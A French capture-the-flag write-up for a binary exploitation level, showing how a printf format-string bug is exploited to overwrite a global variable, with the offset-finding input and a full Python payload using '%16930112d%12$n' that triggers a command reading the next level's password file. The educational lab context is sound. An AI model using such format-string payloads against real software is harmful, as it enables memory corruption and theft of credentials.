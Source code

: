 ## Level 4

Comme au niveau précédent, nous décompilons le binaire.

Appart le main, on retrouve deux fonctions p() et n().

n() fonctionne comme a l'exercice d'avant, il faut donc a nouveau exploiter les
formats strings.

p() fait juste un appel a printf();

Par contre, la valeur a réécrite dans '_m' vaut 0x1025544 soit 16 930 116 en
décimal. Cette variable se situe a l'adresse 0x08049810.

On commence par trouver l'offset de notre argument dans la stack:

$ ./level4
> BBBB %x %x %x %x %x %x %x %x %x %x %x %x

On observe que la valeur 0x42424242 (BBBB) est décalé de 12, due a l'appel de
fonction p() entre le fgets() et le printf(). On sait donc qu'il faudra utiliser
'%12$n'.

Avec toutes ces informations, on construit donc la commande:
$ python -c 'print "\x10\x98\x04\x08" + "B"*16930112 + "%12$n"' | ./level4

Sauf que écrire plus de 16 millions de 'B' ne fonctionne évidement pas. (Cela
serait trop facile)

On va donc allez un pas plus loin dans l'exploitation des format string, en
utilisant la taille de champ de printf(). Ce qui nous donne :

$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' | ./level4

Ce qui nous permet de ne pas afficher ces 16 millions de charactères, mais qui
seront quand meme insérér par printf() lors de la résolution du format.

Pas besoin cette fois ci d'ecrire le retour de la fonction dans un fichier, car
la commande executé par system() n'est pas un shell mais, 'cat
/home/user/level5/.pass'.

Le flag est donc directement affiché sur notre terminal.
